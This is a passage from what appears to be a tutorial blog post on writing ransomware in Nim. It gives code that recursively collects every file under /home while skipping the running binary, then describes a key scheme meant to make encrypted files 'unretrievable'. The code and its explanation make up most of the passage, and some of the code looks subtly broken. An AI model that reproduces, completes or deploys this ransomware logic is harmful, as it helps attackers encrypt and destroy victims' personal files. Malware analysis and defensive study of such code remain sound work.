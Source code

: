 * ![](/imgs/img5.png)

So we need a way to choose the last element from the returned list since this would always be our executable name. We will be using the split function as a way to choose the last index:
```
import os, strutils
var runningFile = paramStr(0).split("/")[len(paramStr(0).split("/"))-1]
echo runningFile
```
Here, we're choosing the last index by performing the same split operation but with the addition of taking the length of the returned list which would return 2 (in this case. for example: if the binary was located in /home/user/ but we ran it from /home/user/docs, len() would return a greater list length). But we can't reference 2 since it'd be out of index, so we take away 1 and use that for our index.

Now running this code would return:

* ![](/imgs/img6.png)

Perfect!
So putting this together with our way of recursively searching for directories:

```
import os, strutils
#targetPaths is simply our list which will contain all filepaths to encrypt
var targetPaths = initDoublyLinkedLists[string]()
var runningFile = paramStr(0).split("/")[len(paramStr(0).split("/"))-1]
var basePath = "/home/*"
for i in 0..500:
 for file in walkFiles(basePath):
  #grabbing the bare filename without the slashes the same we grab our executable name
  if file.split("/")[len(file.split("/"))-1] == runningFile:
   echo "running binary found. skipping..."
  else:
   targetPaths.append(file)
 basePath = basePath & "/*"
```
Now we have a way to search for files recursively on a user's machine and add them to a list for encryption.

## Generating A Key

I decided to use symmetric encryption for this (specifically the [XXTEA algorithm](https://nimble.directory/pkg/xxtea)). And since I the encrypted files to be unretrievable, I thought it'd be better to have a symmetric key that changed for every file that it encrypted (or almost every file, recall that since PDFs and other files can have similar headers, this would mean the encryption key for these files would be the same). 

So I decided that the encryption key should be composed of those 3 things mentioned earlier: the first line of the file, the current user's username, and the current working directory from which the executable was ran.
